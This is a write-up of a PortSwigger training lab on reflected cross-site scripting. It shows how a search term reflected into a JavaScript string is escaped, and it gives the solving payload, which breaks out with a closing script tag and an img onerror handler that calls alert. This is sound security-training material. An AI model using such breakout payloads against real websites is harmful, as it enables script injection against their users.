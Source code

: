 # [Lab: Reflected XSS into a JavaScript string with single quote and backslash escaped](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-javascript-string-single-quote-backslash-escaped)

## Lab

This lab contains a reflected cross-site scripting vulnerability in the search query tracking functionality. The reflection occurs inside a JavaScript string with single quotes and backslashes escaped.

To solve this lab, perform a cross-site scripting attack that breaks out of the JavaScript string and calls the `alert` function.

## Analysis

request:

```http
GET /?search=test<>'"test HTTP/1.1
```

response:

```html
<section class=blog-header>
    <h1>0 search results for 'test&lt;&gt;&apos;&quot;test'</h1>
    <hr>
</section>
<section class=search>
    <form action=/ method=GET>
        <input type=text placeholder='Search the blog...' name=search>
        <button type=submit class=button>Search</button>
    </form>
</section>
<script>
    var searchTerms = 'test<>\'"test';
    document.write('<img src="/resources/images/tracker.gif?searchTerms='+encodeURIComponent(searchTerms)+'">');
</script>
```

our input appear in two positions:

- html part: `<>'"` is html encoded
- js part: only `'` is escaped

## Solutions

request:

```http
GET /?search=</script><img+src%3d1+onerror%3dalert(1)> HTTP/1.1
```

response:

```js
<script>
    var searchTerms = '</script><img src=1 onerror=alert(1)>';
    document.write('<img src="/resources/images/tracker.gif?searchTerms='+encodeURIComponent(searchTerms)+'">');
</script>
```

the `</script>` tags break out of the script block

solved
